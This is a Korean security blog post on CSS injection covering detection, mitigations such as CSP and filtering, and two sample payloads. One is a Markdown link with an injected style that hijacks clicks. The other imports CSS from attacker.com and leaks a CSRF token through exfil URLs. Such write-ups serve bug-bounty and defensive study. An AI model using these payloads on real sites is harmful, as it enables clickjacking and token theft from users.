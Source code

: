 ```yaml
---
layout: post
title: CSS Injection
subtitle: $300 Bounty를 얻게 해준 Style 속성 및 태그를 활용한 공격
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Style
  - CSS
  - Clickjacking
  - KeyLogging
  - WEB
sidebar:
---
```

## Intro
CSS Injection은 사용자가 `<style>` 태그 혹은 style 속성을 임의로 삽입할 수 있을 때 나타나는 취약점입니다.   

해당 취약점은 그 자체 위험도는 크지 않다고 생각하지만, User Interaction이 필요한 취약점을 쉽게 트리거 되도록 만들 수 있습니다.   

주로 `<a>` 태그에 사용하여 ***사용자의 클릭을 하이제킹***하는 Payload를 사용합니다. 혹은 `<style>`, `<link>` 태그가 삽입이 가능할 시 .css 파일을 불러올 수 있어 이 때는 ***Keylogging 혹은 CSRF 토큰 탈취*** 용도로 Payload를 작성할 수 있습니다.
## Detect & Exploit 
### Detect
탐지 방법의 경우 XSS와 유사합니다.   
`<style>` 태그 및 style 속성을 임의로 삽입할 수 있는 지 여부를 살피면 됩니다.
### Exploit
> 🕶️ Clickjacking 목적이라면 부모 태그를 벗어나 페이지 어디에나 위치시킬 수 있는 `position` 속성이 가장 중요합니다.   
> 아래 사진은 만들어낸 사진으로 취약점이라면 해당 사진과 같이 페이지 어느 곳이든 위치할 수 있다는 점을 보여드리기 위한 사진입니다.

![](/assets/images/posts/2024-12-04-CSS-Injection/CSSInjection_Exam.png)   
```Markdown
# In Markdown
[Clickjacking](https://attack.com"style="position:fixed;top:0;left:0;width:100vw;height:100vh;background-color:transparent;z-index:9999;)

# In Custom Color Setting
bgColor=#ffffff;position:fixed;...[위와 동일]
```

```
# Sequential Import Chaining
<style>@import ("https://attacker.com/POC.css")</style>

# POC.css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

## Security Measures
가장 좋은 방법은 사용자가 임의로 `<style>` 태그 및 속성을 삽입할 수 없도록 조치하는 것입니다.   
서비스 특성 상 해당 조치 방법이 어려울 경우 CSP 정책을 통해 외부 링크에서 .css 파일을 가져오지 못하도록 하고, `position` 속성 등을 필터링 하여 악성 링크가 담긴 태그가 페이지 내 자유롭게 위치할 수 없도록 해야 합니다.

## Tools
[Sequential Import Chaining sic](https://github.com/d0nutptr/sic)

## References
[Better Exfiltration via HTML Injection](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b)   
[CSS Injection](https://book.hacktricks.xyz/kr/pentesting-web/xs-search/css-injection)
